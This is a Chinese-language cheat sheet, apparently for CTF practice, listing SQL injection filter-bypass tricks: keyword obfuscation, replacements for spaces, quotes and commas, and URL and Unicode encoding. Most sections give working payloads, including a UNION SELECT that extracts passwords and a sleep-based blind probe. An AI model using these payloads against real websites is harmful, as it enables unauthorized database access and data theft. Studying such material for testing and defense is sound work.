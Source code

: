 ######SQL注入中的绕过

###一.对于关键字的绕过

1. 注释符绕过:`uni/**/on se/**/lect`
2. 大小写绕过:`UniOn SeleCt`
3. 双关键字绕过:`ununionion seselectlect`
4. <>绕过:`unio<>n sel<>ect`(可能是有些网站为了防止xss注入,所以过滤了<>,参照i春秋sql)
5. 对于and,or的绕过其实还可以尝试一下&&,||,[异或注入](https://blog.csdn.net/zpy1998zpy/article/details/80667775)

**这里需要注意一点就是or被过滤的时候order,information中的or也被过滤了**

***

###二.对特殊字符的绕过

* 对空格的绕过:</br>
<pre>两个空格代替一个,用tab键代替空格
`/**/ %20 %09 %0a` 
利用空格绕过:很多关键字都可以写成带括号的形式select(),or()
特殊函数中的空格绕过:ascii(mid(xxfrom(1))) ascii(substr(xxfrom(1)))</pre>

* 对单引号的绕过:</br>
`宽字节 %bf%27 %df%27 %aa%27(争对字符集为GBK时使用`</br>
`十六进制绕过(针对需要输入表名的时候 'user'=>0x7573657273)`</br>

* 对逗号的绕过:
	<pre>
	substr(x,1,1),mid(x,1,1)=>substr(x from 1 for 1) mid(x from 1 for 1)
	limit 0,1=> limit 0 offset 1
	join(本身是用来连接两个表单的,所以join一定是要放在from后面放表单的位置):
	union select 1,2 =>
	union select * from (select 1)a join (select 2)b
	select case when (条件) then (代码1) else (代码2) end 可以对应上if(条件,代码1,代码2)
	if(substring((select user()) from 1 for 1)='e',sleep(5),1)
	可以变为
	select case when substring((select user()) from 1 for 1)='e' then sleep(5) else 1 end
	 </pre>

* 等号的绕过:
<pre>
	利用<>(即不等于号)绕过
	利用like绕过
	利用greatest()绕过(greatest(a,b)返回较大的那个数)
	?id=' or 1 like 1
	?id=' or 1 <> 1
	?id=' union select greatest(substr((select user()),1,1),95)
</pre>

***

###三.其他类型的绕过

* 编码绕过:
<pre>
	* 双重url编码:?id=1%252f%252aUNION%252f%252aSELECT%252f%252a1,2,password%252f%252aFROM%252f%252a/Users--+
	* unicode编码:'=> %u0037 %u02b9
				  空格=> %u0020 %uff00
				  左括号=> %u0028 %uff08
  				  右括号=> %u0029 %uff09
</pre>	

* 相同字符的绕过:</br>
题目中有是可能会出现一种情况:
>它不允许出现某个字符串,但是在数据库中又确实存在这个字符串,再加之mysql与php的编码字符集不相同,便可以利用相似的字符将其绕过

![1.png](https://i.loli.net/2018/09/13/5b9a54128b0b7.png)

可以参考的题目[百度杯十月场look](https://www.ichunqiu.com/battalion)